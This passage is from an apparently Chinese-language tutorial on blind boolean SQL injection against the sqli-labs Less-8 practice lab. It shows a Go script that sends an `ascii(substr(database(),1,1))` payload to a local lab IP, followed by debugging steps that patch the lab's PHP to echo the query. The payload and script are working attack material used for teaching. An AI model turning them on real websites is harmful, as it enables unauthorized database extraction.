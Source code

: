 这段代码的执行结果为：

```shell
Ohh! You are not in!
```

咦～？怎么回事？为什么我们说好的 payload 没作用了？是这个 grequests 的库问题？还是 golang 的版本问题（我的 go 版本是 1.13.6）？还是这个 golang 版本的 `net/http` 的问题（比如这个 [issue](https://github.com/golang/go/issues/4013) ）？

不知道。很有可能在任何一个过程中出错。

### 排查错误与修复

1. 排查 URL

payload 也就是 URL 其实是很容易复制错的，因此优先看这个是否存在错误。

这时我们需要去打印出这个 request 的 url 的时候，经过我一段时间的探索后，发现 grequests 这个库没有办法显示出请求的 URL 一样，不像 Python 的 requests 库一样。比如这个 issue：
https://github.com/levigross/grequests/issues/49

很遗憾，grequests 不像 python 的 requests 库一样强大。

那么我们在网页服务端显示出我们需要执行的 sql 的 payload 即可。

第一步：

进入 docker 的这个 container：

```shell
# 换成自己的container ID
docker exec -it 5e37d8d /bin/bash
```

第二步：

给网页显示增加显示 SQL 的执行语句的功能：

```php
vi /var/www/html/Less-8/index.php

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
# 在这句的下面新添加语句如下：
echo "<font size='5' color= '#99FF00'>";
echo 'Your SQL:'. $sql . '<br>';
echo "</font>";
```

然后增加输出 response 的 body 本身，代码修改如下：

```go
var mark = "You are in"
func main() {
	//url := "http://192.168.3.104/Less-8/?id=1%27%20and%20ascii(substr(database(),1,1))=115%20--+"
	url := "http://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+"
	resp, err := grequests.Get(url, nil)
	if err != nil {
		log.Fatalln("Unable to make request: ", err)
	}
	// 新加：打印出body本身：为了显示出URL是否生效
	fmt.Println(resp.String())
	if strings.Contains(resp.String(), mark) {
		fmt.Println("Yes! You are in")
	} else {
		fmt.Println("Ohh! You are not in!")
	}
}
```
